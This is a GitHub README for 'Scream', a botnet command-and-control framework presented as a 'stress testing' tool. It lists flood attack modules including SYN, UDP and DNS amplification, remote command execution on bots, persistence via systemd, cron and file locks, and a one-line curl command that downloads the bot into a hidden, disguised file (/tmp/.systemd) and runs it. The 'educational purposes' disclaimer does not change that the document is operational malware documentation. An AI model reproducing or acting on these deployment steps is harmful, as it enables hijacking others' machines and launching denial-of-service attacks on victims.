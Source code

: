 # Scream C2 Framework - README

## Overview
Scream is a lightweight Command and Control (C2) framework with integrated stress testing capabilities. This framework provides a web-based interface for managing a botnet and launching various types of network stress tests.

<table>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/7b8e0653-1178-4499-bea2-b1340260ada6" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/122e26d1-1b6c-4065-acb3-7af89746fb6a" width="100%"/></td>
  </tr>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/948fb62d-5861-4963-8c15-ee110c31e21d" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/736a91e2-4c10-439e-9bf7-128ec9ee7841" width="100%"/></td>
  </tr>
</table>

## Features

### ✅ Web-Based Interface
- Real-time bot monitoring
- Attack control panel
- User management system
- Attack history tracking

### 🚀 Stress Testing Modules
- UDP Flood
- TCP Flood
- SYN Flood
- ACK Flood
- GRE Flood
- DNS Amplification
- HTTP Flood

### 🧠 Bot Management
- Auto bot connection handling
- Heartbeat & status monitoring
- Hardware resource reporting
- Remote command execution

### 🔐 Security
- Challenge-response authentication
- TLS encrypted communication
- Session & password management
- Enforced password complexity

---

## Installation

### Requirements
- Go 1.18+ installed
- Root access to a Linux server
- Domain name (recommended for SSL)

### Quick Setup

1. **Clone the repository**
   ```bash
   git clone https://github.com/yourusername/scream-c2.git
   cd scream-c2
   ```

2. **Build server and bot**
   ```bash
   go build -o server main.go
   go build -o bot bot.go
   ```

3. **Generate SSL certificates**
   ```bash
   ./server --gen-cert
   ```

4. **Run the server**
   ```bash
   ./server
   ```

5. **Deploy bots to desired systems**

---

## Configuration

### Server Settings (`main.go`)
```go
const (
    USERS_FILE      = "users.json"
    BOT_SERVER_IP   = "0.0.0.0"
    BOT_SERVER_PORT = "7003"
    WEB_SERVER_IP   = "0.0.0.0"
    WEB_SERVER_PORT = "443"
    CERT_FILE       = "server.crt"
    KEY_FILE        = "server.key"
)
```

### Bot Settings (`bot.go`)
```go
const (
    C2Address = "your.server.ip:7003"
)
```

---

## Usage

### Web Dashboard
- Visit: `https://your-server-ip`
- Default Login:
  - **Username**: `root`
  - **Password**: *(auto-generated, shown on first run)*

### Manage Bots
- View all connected bots and their statuses
- Access detailed hardware/resource reports
- Execute remote commands

### Launch Attacks
1. Select a method
2. Enter target details
3. Define duration
4. Click **"Initiate Attack Sequence"**

### Manage Users
- Create, delete, or modify users (Admin role only)

---

## Deployment Options

### Linux Bot Deployment
```bash
curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
```

### Persistence Methods
- Systemd service
- Cron job
- File lock to prevent deletion

---

## Troubleshooting

### Bots not connecting?
- Double-check `C2Address` in the bot binary
- Ensure server ports are open and listening
- Review firewall or security group settings

### Web interface not loading?
- Verify SSL certificate paths
- Confirm port 443 is accessible
- Check server logs for errors

### Attacks not effective?
- Confirm target IP/hostname and port
- Ensure bots are online
- Verify method compatibility

---

## Security Best Practices
⚠️ **Important:**
- Change the default `root` password immediately
- Use strong, unique passwords for all users
- Restrict dashboard access (VPN, firewall, etc.)
- Keep the system and Go packages updated
- Regularly audit bot activity and logs

---

## License
**For educational and research purposes only.**  
The authors are **not responsible** for any misuse or unauthorized use of this tool.
